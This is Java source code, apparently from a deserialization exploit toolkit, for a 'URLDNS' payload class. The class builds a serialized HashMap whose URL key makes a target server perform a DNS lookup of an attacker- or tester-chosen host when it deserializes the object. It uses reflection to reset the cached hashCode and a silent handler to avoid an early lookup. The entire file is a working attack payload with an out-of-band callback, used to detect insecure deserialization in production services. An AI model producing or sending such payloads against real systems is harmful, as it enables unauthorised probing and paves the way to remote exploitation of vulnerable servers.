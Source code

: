 ```java
@Dependencies()
@Authors({ Authors.GEBL })
public class URLDNS implements ObjectPayload<Object> {

    public Object getObject(final String url) throws Exception {

        // Avoid DNS resolution during payload creation
        // Since the field <code>java.net.URL.handler</code> is transient, it will not
        // be part of the serialized payload.
        URLStreamHandler handler = new SilentURLStreamHandler();

        HashMap ht = new HashMap(); // HashMap that will contain the URL
        URL u = new URL(null, url, handler); // URL to use as the Key
        ht.put(u, url); // The value can be anything that is Serializable, URL as the key is what
                        // triggers the DNS lookup.

        Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and
                                                      // cached. This resets that so the next time hashCode is called a
                                                      // DNS lookup will be triggered.

        return ht;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(URLDNS.class, args);
    }

    /**
     * <p>
     * This instance of URLStreamHandler is used to avoid any DNS resolution while
     * creating the URL instance.
     * DNS resolution is used for vulnerability detection. It is important not to
     * probe the given URL prior
     * using the serialized object.
     * </p>
     *
     * <b>Potential false negative:</b>
     * <p>
     * If the DNS name is resolved first from the tester computer, the targeted
     * server might get a cache hit on the
     * second resolution.
     * </p>
     */
    static class SilentURLStreamHandler extends URLStreamHandler {

        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }

        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
    }
}

```

